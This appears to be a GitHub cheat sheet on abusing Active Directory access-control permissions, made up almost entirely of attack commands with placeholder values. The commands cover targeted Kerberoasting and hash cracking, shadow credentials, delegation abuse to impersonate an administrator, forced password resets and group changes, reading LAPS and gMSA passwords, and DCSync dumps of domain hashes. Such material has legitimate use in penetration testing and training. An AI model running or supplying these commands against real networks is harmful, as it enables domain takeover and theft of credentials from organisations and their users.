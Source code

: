 - [GenericWrite on User](#genericwrite-on-user)
  - [Targeted Kerberoasting](#targeted-kerberoasting)
  - [ShadowCredentials](#shadowcredentials)
- [GenericALL](#genericall)
  - [Change Password](#change-password)
  - [Add User to a Group](#add-user-to-a-group)
  - [Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-rbcd)
  - [GenericALL on OU](#genericall-on-ou)
- [ForceChangePassword](#forcechangepassword)
- [AddMember](#addmember)
- [AddSelf](#addself)
- [WriteOwner](#writeowner)
- [WriteSPN](#writespn)
- [AddKeyCredentialLink](#addkeycredentiallink)
- [ReadLAPSPassword](#readlapspassword)
- [ReadGMSAPassword](#readgmsapassword)
- [DCSync](#dcsync)
- [Resources](#resources)
## GenericWrite on User
> Update object's attributes
### Targeted Kerberoasting
```
targetedKerberoast.py -d domain --dc-ip ip -u username -p password --dc-host dc --request-user target_user
```
```
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force
```
```
john <hash_file> --wordlist=rockyou.txt
```
### ShadowCredentials
```
certipy shadow auto -u username@domain -p password -account target_user -dc-ip ip
```
Using Kerberos
```
certipy shadow auto -username username@domain -k -account target_user -dc-ip ip
```
## GenericALL
> Full rights to the object (add users to a group or reset user's password)
### Change Password
```
bloodyAD --host dc -d domain -u username -p password set password target new_password
```
```
net rpc password 'username' 'new_password' -U 'domain'/'username'%'hash' -S 'dc' --pw-nt-hash
```
```
net rpc password 'username' 'new_password' -U 'domain'/'username'%'password' -S 'dc'
```
### Add user to a group
```
net rpc group addmem target_group username -U domain/username -S dc
```
```
bloodyAD --host dc -d domain -u username -p password add groupMember target_group target_username
```
### RBCD
```
rbcd.py -delegate-from machine_name -delegate-to target -dc-ip ip -action write 'domain/username:password'
```
```
getST.py -spn 'cifs/dc' -impersonate administrator -dc-ip ip 'domain/machine_name:password
```
```
export KRB5CCNAME=administrator.ccache
```
### GenericALL on OU
```
dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal username -target-dn 'OU_DN' domain/username:password
```
## ForceChangePassword
> Ability to change user's password
```
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>
```
```
bloodyAD --host ip -d dc -u username -p password set password target_userename new_password
```
```
python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>
```
```
nxc smb domain -u username -p password -M change-password -o USER='target_username' NEWPASS='new_password'
```
## AddMember
```
net rpc group addmem target_group username -U domain/username -S dc
```
```
bloodyAD.py --host dc -d domain -u username -p password add groupMember target_group user_to_add
```
## AddSelf
> The user has the ability to add itself to the target group
```
bloodyAD.py --host dc -d domain -u username -p password add groupMember target_group username
```
## WriteOwner
> Change object owner to attacker controlled user take over the object
```
owneredit.py -action write -new-owner username -target target domain/username:password
```
```
dacledit.py -action 'write' -rights 'FullControl' -principal username -target-dn dn 'domain/username:password'
```
or
```
dacledit.py -action 'write' -rights 'WriteMembers' -principal username -target-dn dn 'domain/username:password'
```
```
bloodyAD.py --host dc -d domain -u username -p password add groupMember target_group username
```
## WriteSPN
> The ability to write to the "serviceprincipalname" attribute to the target user
```
bloodyAD --host dc -d domain -u username -p password set object target servicePrincipalName -v 'domain/meow'
```
```
GetUserSPNs.py domain/username:password -dc-ip ip -request
```
or
```
targetedKerberoast.py -d domain --dc-ip ip -u username -p password --dc-host dc --request-user target_user
```
## AddKeyCredentialLink
```
pywhisker.py -d domain --dc-ip ip -u username -p password --target target --action add
```
```
gettgtpkinit.py -cert-pfx file.pfx -pfx-pass pfx_password domain/target ticket.ccache -dc-ip ip
```
```
getnthash.py domain/target -k key -dc-ip ip
```
or
```
certipy shadow auto -u username@domain -p password -account target_user -dc-ip ip
```
## ReadLAPSPassword
```
nxc smb target -u username -p password --laps
```
## ReadGMSAPassword
```
nxc ldap target -u username -p password --gmsa
```
## DCSync
> A user or a computer has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All permission on the domain
```
secretsdump.py domain/username:password@domain
```
```
secretsdump.py domain/username@domain -hashes :hash
```
```
secretsdump.py dc -k
```
```
nxc smb target -u username -p password --ntds
```
```
nxc smb target --use-kcache --ntds
```
# Resources
- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
- https://mayfly277.github.io/posts/GOADv2-pwning-part11/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
